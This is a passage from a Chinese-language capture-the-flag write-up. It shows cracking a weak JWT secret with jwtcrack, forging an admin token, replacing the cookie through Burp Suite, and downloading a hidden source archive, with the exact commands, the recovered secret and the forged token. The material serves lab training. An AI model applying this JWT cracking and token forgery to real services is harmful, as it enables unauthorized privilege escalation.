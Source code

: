 ```
jwtcrack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF3ZXJ0eSJ9.FbjCsNp1kM-NvtKYKMcDZAcifvO6EojCYhnps1XD6FU
```

## jwt key

```
INFO:[*]: GET IT! JWT Signature Secret: 1Kun
```

key的值是：`1Kun`

## 替换cookie

得到篡改admin的JWT的值为

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

![image-20230831175144795](https://s2.loli.net/2023/08/31/AHQ7i6uXpJTSYCh.png)

## BurpsuitE抓包改cookie的jwt值

![image-20230831183007756](https://s2.loli.net/2023/08/31/dXACxu4U73Bmsew.png)

点击"一键成为大会员"没有反应，

查看源代码有一个www.zip

```
<a href="/static/asd1f654e683wq/www.zip"><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
```



http://64e1263c-61b5-4b8f-9206-077ee4d322ee.node4.buuoj.cn:81/static/asd1f654e683wq/www.zip

## 分析源代码

![image-20230831184224692](https://s2.loli.net/2023/08/31/lPgqpJs5nCbfMGK.png)

```
import tornado.web
import tornado.ioloop
import tornado.httpserver
import tornado.options
from tornado.options import options, define

define('port', default=8233, help='run on the given port', type=int)
define('address', default='0.0.0.0', help='binding at given address', type=str)

from sshop import Application

def main():
    tornado.options.parse_command_line()
    server = tornado.httpserver.HTTPServer(Application())
    server.listen(options.port, options.address)
    print('slog server started: <http://%s:%s>' % (options.address, options.port))
    tornado.ioloop.IOLoop.instance().start()


if __name__ == '__main__':
    main()
```

